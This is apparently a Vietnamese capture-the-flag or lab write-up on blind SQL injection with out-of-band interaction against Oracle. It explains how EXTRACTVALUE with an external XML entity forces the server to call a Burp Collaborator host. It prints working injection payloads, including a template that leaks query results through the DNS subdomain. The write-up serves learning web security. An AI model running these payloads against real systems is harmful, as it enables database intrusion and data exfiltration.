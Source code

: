 ![image](https://github.com/user-attachments/assets/cd837e4e-b0f6-4874-919e-6648d5e806e1)

Blind SQL Injection với OOB có thể xác định bằng cách gây ra một request DNS/HTTP ra bên ngoài.

Thì bắt đầu challenge này cũng như bao challenge khác là phải xác định được dbms.

Vì ở đây là blind, lại còn là loại oob nữa nên chúng ta chỉ có cách brute force thôi, bạn cứ thử hết các loại dbms trong cheet sheet dưới đây.

```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//312v9d892ym7ib5zaunls6ucz35utkh9.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

**EXTRACTVALUE(xml, xpath) là gì?**

Trong Oracle, hàm EXTRACTVALUE(xml, xpath) dùng để trích xuất dữ liệu từ một đối tượng XML dựa trên đường dẫn XPath.

Ví dụ:

```
SELECT EXTRACTVALUE(XMLTYPE('<root><item>Test</item></root>'), '/root/item') FROM dual;
```

XMLTYPE('<root><item>Test</item></root>'): Chuyển chuỗi thành XML.

EXTRACTVALUE(..., '/root/item'): Truy xuất nội dung trong <item>, trả về "Test".

**Vậy /l trong payload làm gì?**

```
EXTRACTVALUE(xmltype('<!DOCTYPE root [<!ENTITY % remote SYSTEM "http://312v9d892ym7ib5zaunls6ucz35utkh9.oastify.com/"> %remote;]>'), '/l')
```

/l là một XPath không tồn tại, vì trong XML khai báo DTD này không có phần tử nào tên "l".

Điều này làm cho EXTRACTVALUE gặp lỗi.

Trong Oracle, lỗi EXTRACTVALUE sẽ hiển thị nội dung XML đã phân tích, bao gồm cả External Entity.

Kết quả là máy chủ thực hiện request đến URL Burp Collaborator.

**Tại sao lại cố ý gây lỗi?**

Dữ liệu XML có thể chứa external entity.

EXTRACTVALUE sẽ cố truy vấn XPath /l nhưng không tìm thấy -> Lỗi xảy ra.

Lỗi chứa nội dung của XML, giúp ta kích hoạt XXE và làm server gửi request đến Burp Collaborator.

'/l' chỉ là một XPath giả mạo để gây lỗi, nhằm buộc Oracle xử lý external entity và thực hiện request OOB đến Burp Collaborator.

Trong Oracle, cách EXTRACTVALUE(xml, xpath) hoạt động phụ thuộc vào việc XPath có tồn tại trong XML hay không.

| **Trường hợp**                 | **Kết quả**                                           |
|---------------------------------|------------------------------------------------------|
| XPath tồn tại (`/root/data`)    | Trả về nội dung XML, **KHÔNG** gây lỗi               |
| XPath không tồn tại (`/l`)      | Oracle báo lỗi, **có thể kích hoạt XXE**             |


![image](https://github.com/user-attachments/assets/e9b37074-c41b-4bf6-a6dc-3d7ae9c5a45e)

![image](https://github.com/user-attachments/assets/225dfa95-295c-47ed-b05a-9ce1b53e8401)

Vậy là thành công r đó

## REFERENCE
[1]. https://portswigger.net/web-security/sql-injection/cheat-sheet
